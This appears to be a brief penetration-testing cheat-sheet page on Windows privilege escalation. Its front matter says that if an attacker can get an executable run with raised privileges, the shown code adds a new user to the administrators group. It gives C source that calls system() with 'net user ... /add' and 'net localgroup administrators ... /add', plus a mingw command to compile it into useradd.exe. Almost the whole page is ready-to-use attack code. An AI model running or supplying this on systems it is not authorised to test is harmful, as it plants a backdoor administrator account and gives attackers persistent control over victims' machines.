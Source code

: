 ```yaml
---
description: >-
  If your able to run a executable to escalate privilege, you can use the
  following code to add a new user in the administratior group
---
```


# Add user script

Code: 

```text
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */ 
int main () 
{ 
  int i; 
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add"); 
  return 0; 
} 
```

\# Compile 

`i686-w64-mingw32-gcc -o useradd.exe useradd.c` 

